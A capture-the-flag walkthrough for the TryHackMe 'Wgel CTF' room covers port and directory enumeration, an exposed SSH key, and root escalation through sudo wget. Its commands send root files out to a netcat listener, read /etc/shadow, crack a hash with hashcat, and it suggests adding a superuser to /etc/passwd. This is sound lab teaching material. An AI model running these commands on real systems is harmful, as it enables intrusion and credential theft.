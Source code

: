 ```yaml
---
title: "Wgel CTF"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="wgel.png" alt="Wgel CTF" style="width:200px" >}}


## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11374, Words: 3512, Lines: 379]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
sitemap                 [Status: 301, Size: 314, Words: 20, Lines: 10]


/sitemap

.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10]
css                     [Status: 301, Size: 318, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10]
```

visit `sitemap` directory and get to "unapp" template page
fuzz again and in `.ssh` dir you have an `id_rsa` key

we know what to do

```bash
└──╼ $python2 /usr/share/john/ssh2john.py -w=/usr/share/wordlists/rockyou.txt id_rsa > id_john
id_rsa has no password!
```

wait what? I don't even know what user I should ssh as...let's go back
folks you remember how we insist all the time on ALWAYS checking source code?

It was in `/index.html`...yes that default index page for apache servers

```html
        <pre>
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 <!-- Jessie don't forget to udate the webiste -->
          </pre>

```

Now we ssh as `jessie`...Don't forget to fix permissions on the key

```bash
└──╼ $chmod 600 id_rsa

└──╼ $ssh jessie@10.10.92.232 -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$
```

```bash
jessie@CorpOne:~/Documents$ cat user_flag.txt
jessie_flag_suddenly_appears
```
## Privilege Escalation

```bash
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

wget unh? sounds easy

Notice how we could probably just `su` to root if we had jessie's sudo password

ok gtfobins say we can download root files...so if the root flag is in the same format as
user flag we get `/root/root_flag.txt`

You can use `find` to confirm that

set a netcat listener on your side

```bash
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.8.226.203:2311
--2021-11-27 15:27:02--  http://10.8.226.203:2311/
Connecting to 10.8.226.203:2311... connected.
HTTP request sent, awaiting response...
```

```bash
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 58212
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.226.203:2311
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

root_flag_goes_here
```

And we got root flag! at this point we could just call it a day...
But there is always another possibility
if we can use `wget` to read files we might as well read interesting ones

`/etc/shadow`

```bash
...
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```
ha! jessie's hash! those are crackable!

looks like sha-512crypt

```bash
└──╼ $hashcat -m 1800 '$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
```
well its gonna take too long and I don't have that patience now

But feel free to explore. What I liked the most about this room was the multiple
ways to escalate

By example there is also a possibility to add a new superuser to `/etc/passswd`
You download, modify and upload the file...
If you are curious enough you will find another way
